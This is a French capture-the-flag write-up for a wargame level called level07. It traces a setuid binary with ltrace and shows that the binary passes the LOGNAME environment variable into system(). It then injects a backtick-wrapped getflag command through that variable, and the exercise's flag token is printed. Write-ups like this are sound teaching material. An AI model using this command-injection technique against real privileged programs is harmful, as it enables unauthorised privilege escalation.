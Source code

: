 # Level07

On observe un éxécutable a la racine <code>level07</code>

```bash
$ ./level07
level07
```

En utilisant <code>ltrace</code>, on voit qu'il <code>echo level07</code>

```bash
$ ltrace ./level07
__libc_start_main(0x8048514, 1, 0xbffff7f4, 0x80485b0, 0x8048620 ...
getegid()                                        = 2007
geteuid()                                        = 2007
setresgid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280) = 0
setresuid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280) = 0
getenv("LOGNAME")                                = "level07"
asprintf(0xbffff744, 0x8048688, 0xbfffff46, 0xb7e5ee55, 0xb7fed280) = 18
system("/bin/echo level07 "level07 ...
--- SIGCHLD (Child exited) ---
<... system resumed> )                           = 0
+++ exited (status 0) +++
```

La valeur est obtenue en lisant la variable d’environnement <code>LOGNAME</code>

On modifie donc <code>LOGNAME</code> pour verifier la théorie

```bash
$ LOGNAME="test"

$ ./level07
test
```

Et le programme <code>echo test</code> cette fois ci.

On écrit donc la commande <code>getflag</code> dans <code>LOGNAME</code>

```bash
$ LOGNAME="\`getflag\`"

$ ./level07
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```
